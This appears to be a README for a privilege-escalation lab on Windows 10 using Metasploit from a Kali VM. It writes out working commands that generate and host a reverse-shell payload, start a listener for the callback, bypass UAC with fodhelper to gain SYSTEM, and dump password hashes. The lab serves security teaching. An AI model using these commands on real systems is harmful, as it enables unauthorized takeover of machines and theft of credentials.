 # Privilege Escalation

This repository demonstrates a hands-on lab for privilege escalation on a vulnerable Windows machine using a Kali Linux attacker machine. The lab showcases how to exploit vulnerabilities to gain higher privileges and includes detailed steps for exploitation and escalation.

---

## Objectives

* Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.
* Perform exploitation using Metasploit Framework.
* Understand how to bypass User Account Control (UAC) and gain elevated privileges.

---

## Prerequisites

* **Kali Linux** virtual machine with networking configured.
* **Windows 10** virtual machine with networking configured.
* Both VMs must be on the same network and have connectivity.

---

## Workflow

### 1. Setup Apache to Share Exploit File

Run the script to configure Apache and set up the shared folder for delivering the malicious payload.

```bash
./setup_apache.sh
```

This will:

* Install Apache if not already installed.
* Configure the Apache server to host a directory for sharing files.
* Copy the malicious payload `Exploit.exe` to the shared directory.

### 2. Create the Exploit File

Generate the malicious payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<KALI_IP> -f exe > Desktop/Exploit.exe
```

Replace `<KALI_IP>` with your Kali machine's IP address.

### 3. Start Apache Server

Ensure Apache is running:

```bash
sudo service apache2 start
```

The malicious payload will be accessible via `http://<KALI_IP>/share/Exploit.exe`.

### 4. Start Metasploit Handler

Prepare Kali to catch the connection when the victim runs the payload:

1. Open a terminal and start Metasploit:

   ```bash
   msfconsole
   ```

2. Run the following commands in Metasploit:

   ```
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <KALI_IP>
   exploit -j -z
   ```

This starts the listener and prepares to catch incoming connections from the victim machine.

### 5. Perform Exploitation

On the Windows 10 victim machine:

1. Open a browser and navigate to: `http://<KALI_IP>/share/`.
2. Download and run `Exploit.exe`. If prompted with a security warning, click **Run**.

### 6. Meterpreter Session

After the victim executes the payload, a Meterpreter session will open on Kali. Use the following commands:

* List active sessions:

  ```
  sessions
  ```

* Interact with the session:

  ```
  sessions -i <ID>
  ```

Replace `<ID>` with the session ID displayed in the `sessions` command output.

### 7. Privilege Escalation

To escalate privileges:

1. Attempt privilege escalation:

   ```
   getsystem
   ```

2. If this fails, bypass User Account Control (UAC):

   ```
   use exploit/windows/local/bypassuac_fodhelper
   set SESSION <ID>
   run
   ```

3. Once UAC is bypassed, re-run `getsystem`:

   ```
   getsystem
   ```

4. Verify elevated privileges:

   ```
   getuid
   ```

   You should see: `NT AUTHORITY\SYSTEM`.

---
### 8. Dump Password Hashes
 ```bash
run post/windows/gather/smart_hashdump
```
## Repository Structure

```plaintext
privilege-escalation/
├── scripts/
│   ├── setup_apache.sh      # Automates Apache setup and payload sharing.
│   └── metasploit_commands.sh  # Automates Metasploit setup and exploitation.
├── README.md                # Detailed documentation for the lab.

```

---

## Notes

* Ensure both VMs are on the same network and can communicate.
* For educational purposes only. Do not use these techniques on unauthorized systems.

---

